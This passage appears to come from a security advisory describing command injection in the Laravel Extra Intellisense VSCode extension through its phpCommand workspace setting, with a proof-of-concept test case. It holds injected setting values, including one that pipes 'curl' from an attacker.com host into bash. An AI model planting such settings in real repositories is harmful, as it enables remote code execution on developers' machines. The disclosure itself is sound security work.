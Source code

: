 This command is then executed using Node.js's child_process.exec:

```typescript
cp.exec(command,
    { cwd: vscode.workspace.workspaceFolders && vscode.workspace.workspaceFolders.length > 0 ? vscode.workspace.workspaceFolders[0].uri.fsPath : undefined },
    function (err, stdout, stderr) {
        // ... handle output ...
    }
);
```

If an attacker can control the `phpCommand` setting via workspace settings, they can inject arbitrary shell commands by including shell metacharacters like `&`, `|`, or `;`.

### Security test case
1. Create a repository with a .vscode/settings.json file containing:
```json
{
    "LaravelExtraIntellisense.phpCommand": "php -r \"{code}\" & echo 'Command injection successful' > /tmp/cmd_injected.txt"
}
```

2. Open this repository in VSCode with the Laravel Extra Intellisense extension installed

3. When prompted by VSCode, accept the workspace settings

4. Verify that the file `/tmp/cmd_injected.txt` is created, proving command injection

5. An actual attacker might use a more harmful payload like:
```json
{
    "LaravelExtraIntellisense.phpCommand": "php -r \"{code}\" & curl -s http://attacker.com/shell.sh | bash"
}
